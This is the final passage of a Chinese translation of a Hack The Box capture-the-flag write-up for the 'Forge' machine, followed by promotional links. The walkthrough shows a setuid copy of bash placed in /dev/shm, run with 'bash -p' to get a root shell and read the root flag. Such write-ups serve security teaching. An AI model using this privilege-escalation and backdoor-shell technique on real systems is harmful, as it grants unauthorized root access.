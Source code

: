 在这里，我们可以做很多不同的事情，我只是将 bash 复制到一个临时区域，并添加了 sticky 位，这样我就可以在没有密码的情况下以 root 用户身份运行它。

现在，我们可以抓取根标志来完成该框:

```
-bash-5.0$ cd /dev/shm
-bash-5.0$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt 
<HIDDEN>
```

这是一个很容易说它被归类为中等的盒子。我希望你喜欢它，下次再见。

如果你喜欢这篇文章，请给我一两个掌声(这是免费的！)

推特—[https://twitter.com/pencer_io](https://twitter.com/pencer_io)
网站— [https://pencer.io](https://pencer.io/)

*原载于 2022 年 1 月 20 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-forge)*。*

🔈🔈 **Infosec Writeups 正在组织其首次虚拟会议和网络活动。如果你对信息安全感兴趣，这是最酷的地方，有 16 个令人难以置信的演讲者和 10 多个小时充满力量的讨论会议。** [**查看更多详情，在此注册。**](https://iwcon.live/)

[](https://iwcon.live/) [## IWCon2022 - Infosec 书面报告虚拟会议

### 与世界上最优秀的信息安全专家建立联系。了解网络安全专家如何取得成功。将新技能添加到您的…

iwcon.live](https://iwcon.live/)
